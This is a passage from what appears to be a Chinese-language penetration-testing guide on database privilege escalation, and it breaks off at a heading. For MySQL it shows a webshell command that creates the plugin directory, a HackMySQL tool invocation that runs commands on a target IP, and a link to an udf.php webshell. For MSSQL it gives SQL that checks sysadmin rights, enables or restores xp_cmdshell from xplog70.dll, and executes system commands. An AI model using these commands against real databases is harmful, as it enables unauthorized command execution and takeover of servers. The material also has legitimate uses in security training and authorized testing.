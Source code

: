 所以我是用`Webshell`这样创建的plugin文件夹：

```bash
echo 123 > C:\phpStudy\PHPTutorial\MySQL\lib\plugin::$INDEX_ALLOCATION
```

**有一个自动化工具**：https://github.com/T3st0r-Git/HackMySQL 

```bash
#上边的创建plugin目录步骤完成后直接利用即可
python root.py -a 192.168.2.9 -proot -e "whoami"
```

 **通过WebShell上传udf.php（这种方法数据库不用外连也可以）** 

 udf.php：https://github.com/echohun/tools/blob/master/%E5%A4%A7%E9%A9%AC/udf.php 

### MSSQL数据库提权

**首先查看权限**

```sql
--是否sa权限，返回 1 就是sa
select IS_SRVROLEMEMBER('sysadmin')

--是否dba权限，返回 1 就是DBA
select IS_MEMBER('db_owner')
```

**一、xp_cmdshell**

> **适用(xp\2000\2003系统)**
>
> 前提是MSSQL是以system用户运行的，才能提权；
>
> 如果用nt authority\network service运行，是没有系统权限的。

默认情况下是关闭的，用下边的命令开启

```sql
EXEC sp_configure 'show advanced options', 1; --允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; --打开xp_cmdshell扩展
RECONFIGURE;
```

如果xp_cmdshell被删除，可以尝试上传`xplog70.dll` https://fix4dll.com/xplog70_dll 进行恢复，恢复语句：

```sql
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','c:\\xplog70.dll';
```

然后执行命令

```sql
exec xp_cmdshell 'whoami';
```

**二、SP_OACreate** 

> **适用(xp\2000\2003系统)**
